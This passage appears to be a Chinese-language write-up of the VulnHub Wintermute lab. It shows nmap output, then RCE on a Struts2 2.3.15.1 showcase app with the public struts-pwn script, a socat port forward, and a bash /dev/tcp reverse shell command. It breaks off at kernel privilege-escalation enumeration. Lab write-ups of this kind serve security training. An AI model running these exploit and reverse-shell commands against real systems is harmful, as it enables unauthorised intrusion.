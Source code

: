 ```shell
|   2048 2e:9b:4a:a9:c0:fc:0b:d8:ef:f1:e3:9d:f4:59:25:32 (RSA)
|   256 f6:2a:de:07:36:36:00:e9:b5:5d:2f:aa:03:79:91:d1 (ECDSA)
|_  256 38:3c:a8:ed:91:ea:ce:1d:0d:0f:ab:51:ac:97:c8:fb (ED25519)
MAC Address: 08:00:27:9C:3F:44 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

struts2_2.3.15.1-showcase给了详细版本，找到漏洞利用脚本

https://github.com/mazen160/struts-pwn

```shell
┌──(kali㉿kali)-[~/vulnhub/Wintermute-Lab/struts-pwn]
└─$ python3 struts-pwn.py -u http://192.168.56.102:8080/struts2_2.3.15.1-showcase/showcase.jsp -c 'id'

[*] URL: http://192.168.56.102:8080/struts2_2.3.15.1-showcase/showcase.jsp
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

uid=1000(ta) gid=1000(ta) groups=1000(ta),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

[%] Done.
```

成功执行命令

在做一个端口转发，然后进行反弹shell

```
socat TCP-LISTEN:8000,reuseaddr,fork TCP:192.168.56.138:8000 &
```

```shell
python3 struts-pwn.py -u http://192.168.56.102:8080/struts2_2.3.15.1-showcase/showcase.jsp -c '/bin/bash -i >& /dev/tcp/192.168.89.3/8000 0>&1'
```

### 内核提权

```shell
ta@neuromancer:/$ uname -a
uname -a
Linux neuromancer 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ta@neuromancer:/$ cat /etc/*rele*
cat /etc/*rele*
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
```
